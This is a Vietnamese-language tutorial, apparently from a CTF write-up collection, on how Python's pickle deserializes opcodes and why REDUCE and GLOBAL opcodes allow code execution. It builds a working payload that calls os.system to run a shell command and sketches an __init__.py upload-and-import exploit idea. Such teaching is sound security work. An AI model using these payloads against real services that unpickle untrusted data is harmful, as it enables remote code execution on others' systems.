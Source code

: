 # Cách mà pickle deserialize dữ liệu

## Serialize và deserialize

Todo 😉

## Pickle format
Quá trình serialize dữ liệu (số nguyên, list, dictionary, ...) của pickle sẽ cho ra một dãy byte. Nên khi deserialize ta sẽ xem xét một dãy byte. Các byte liên quan khi gộp lại sẽ thành opcode, một opcode sẽ thực hiện một thao tác. Như vậy ta sẽ có dãy các opcode. Dãy opcode đó khi cần deserialize thì sau khi đi qua một machine gọi là pickle machine (PM) sẽ xây dựng được thành một object Python phức tạp.

PM có hai trường dữ liệu, `stack` và `memo`:
- `memo`: nơi giúp lưu lại một số kết quả để tối ưu cho quá trình.
- `stack`: đúng như tên gọi của nó, nó sử dụng cấu trúc dữ liệu stack. Ta sẽ tập trung vào đây hơn là `memo`.

Một vài opcode sẽ có tác dụng đẩy object vào `stack` hoặc lấy object ra khỏi `stack`. Cho tới khi gặp opcode cho lệnh `STOP` được thực thi. Những gì còn lại trong `stack` sau khi thực thi lệnh `STOP` sẽ là output của quá trình deserialize.

## Quá trình deserialize
Opcode sẽ gồm hai phần, phần đầu là một byte thể hiện loại thao tác, heo sau đó là các argument. Mỗi argument kết thúc bằng ký tự `\n` (new line). Dấu chấm `.` sẽ thể hiện cho `STOP`.

Ví dụ: để deserialize được ra string `'abcdefgh2808'`. Ta có byte thể hiện loại thao tác là `S` (thể hiện đẩy vào `stack` một string) và argument là `'abcdefgh2808'`. Và kết thúc opcode bằng `\n` rồi kết thúc quá trình deserialize bằng dấu chấm `.`. Ta được: `S'abcdefgh2808'\n.`

```
>>> import pickle
>>> pickle.loads("S'abcdefgh2808'\n.")
'abcdefgh2808'
```

Trong `stack` sẽ có như sau:
```
abcdefgh2808
```

:v Ví dụ này hơi đơn giản nên `stack` cũng đơn giản nốt. Nó bỏ string kia vô `stack` rồi gặp `.` nên `STOP` luôn. Ta sẽ thử ví dụ sau cho dễ hiểu hơn.

Ví dụ: Để xây dựng list `[8, 2, 1]`, sẽ có ký tự `(` để thể hiện bắt đầu list và `l` để thể hiện kết thúc list. Ta sẽ có chuỗi opcode như sau:

```
>>> pickle.loads("(I1\nI2\nI3\nl.")
[8, 2, 1]
```

Khi xét đoạn `(I1\nI2\nI3\n`, `stack` của ta như sau:
```
1
2
8
(
```

Sau đó khi gặp ký tự `l` PM sẽ lấy hết những thứ sau `(` bỏ vào list và ta được `stack` như sau:
```
[8, 2, 1]
```

Dấu `(` cũng bị đẩy ra khỏi stack.

Nested list cũng được xây dựng tương tự như thế: 
```
>>> pickle.loads(b"(S'abcdefgh2808'\n(I1\nI2\nS'3'\nll.")                                                                                                                                                          ['abcdefgh2808', [1, 2, '3']]
```

Ngoài ra, pickle cũng có nhiều ký tự đại diện cho các [lệnh](https://github.com/python/cpython/blob/main/Lib/pickle.py) khác:

![Oops](./images/some_opcodes.jpg)

Mỗi ký tự sẽ có một tên khác: Ví dụ `(` có tên là `MARK`.

## Pickletools
Trong Python có module `pickletools` với hàm `genops` sẽ giúp con người đọc opcode dễ hơn.
```
>>> import pickletools
>>>
>>> opcode = pickletools.genops(b"cos\nsystem\nS'ls'\n\x85R.")
>>>
>>> for x in opcode:
...     print(x[0].name, x[1])
...
GLOBAL os system
STRING ls
TUPLE1 None
REDUCE None
STOP None
```

Đôi lúc ta sẽ bắt gặp lập trình viên sử dụng `pickletools` để filter trước khi deserialize bằng cách giới hạn các lệnh và nội dung của lệnh.

## Vấn đề của pickle
Khi deserialize nó thực thi một số lệnh, và trong các lệnh đó có một vài lệnh không an toàn để sử dụng. Ví dụ như:
```python
REDUCE         = b'R'   # apply callable to argtuple, both on stack
GLOBAL         = b'c'   # push self.find_class(modname, name); 2 string args
STACK_GLOBAL   = b'\x93'  # same as GLOBAL but using names on the stacks
TUPLE1         = b'\x85'  # build 1-tuple from stack top
```

Cụ thể:
- `REDUCE` được dùng để gọi callable. Callable là những gì có thể được gọi, điển hình là hàm. Chú ý là cả callable và argument tuple của callable đó đều được lấy từ `stack`. Do đó attacker có thể sử dụng nó để thực thi code. Ở ví dụ phía dưới, mình sẽ lấy callable là `os.system` và tuple là `('ls',)`. Thì khi gọi được callable ta sẽ thực thi được lệnh `ls` trên shell.
- `GLOBAL` và `STACK_GLOBAL` được dùng để gọi `self.find_class()` có tác dụng tìm thuộc tính của một object và trả về nó. Ta có thể lợi dụng nó để tìm thuộc tính thành viên là một hàm để hỗ trợ cho `REDUCE`.

    ```python
    def find_class(self, module, name):
        # Subclasses may override this.
        sys.audit('pickle.find_class', module, name)
        if self.proto < 3 and self.fix_imports:
            if (module, name) in _compat_pickle.NAME_MAPPING:
                module, name = _compat_pickle.NAME_MAPPING[(module, name)]
            elif module in _compat_pickle.IMPORT_MAPPING:
                module = _compat_pickle.IMPORT_MAPPING[module]
        __import__(module, level=0)
        if self.proto >= 4:
            return _getattribute(sys.modules[module], name)[0] # Là getattr(sys.modules[module], name) nhưng có thêm vài tính năng khác
        else:
            return getattr(sys.modules[module], name)
    ```

    Ta thấy rằng `find_class(module, name)` sẽ import một module rồi trả về `getattr(sys.modules[module], name)`. Ta có thể sử dụng nó để `import os` rồi lấy hàm `system` để thực hiện RCE. `module` sẽ là `os` và `name` sẽ là `system`.

    ```
    >>> import pickle                                                                                                       >>> import sys                                                                                                          >>>                                                                                                                     >>> __import__('os', level=0)                                                                                           <module 'os' from '/usr/lib/python3.8/os.py'>                                                                           >>> getattr(sys.modules['os'], 'system')                                                                                <built-in function system> 
    >>>                                                                                             >>> pickle.loads(b"cos\nsystem\n.")    # ở đây sử dụng GLOBAL để demo, có thể sử dụng STACK_GLOBAL cũng được, nhưng sẽ cần thay đổi byte                                                                                 <built-in function system>
    ```

    `system` chính là callable mà ta hướng tới.
- Ta đã có callable rồi, bây giờ ta cần argument tuple nữa. Ta sẽ dùng `\x85` để tạo tuple `('ls',)` như sau:
    ```
    >>> pickle.loads(b"S'ls'\n\x85.")                                                                                       ('ls',)
    ```

- Kết hợp mọi thứ lại ta có:
    ```
    >>> pickle.loads(b"cos\nsystem\nS'ls'\n\x85R.") 
    bin   dev  home  ...
    ```

Vậy là ta đã thực thi được code, là điều mà mọi hacker đều muốn 😁

Ngoài ra, mình cũng từng gặp một concept exploit ([bài phân tích ở đây nè](../../2022/hitconCTF_2022/S0undCl0ud/) 😆) như sau:
- Upload file `__init__.py` vào một thư mục.
- Sau đó lợi dụng `STACK_GLOBAL` hoặc `GLOBAL` để `__import__()` thư mục chứa file `__init__.py` vào thế là thực thi được code. 🤯

## Tham khảo
- https://adrianstoll.com/post/python-in-a-pickle-an-explanation-of-the-python-pickle-format-and-security-problems/
- https://github.com/python/cpython/blob/main/Lib/pickle.py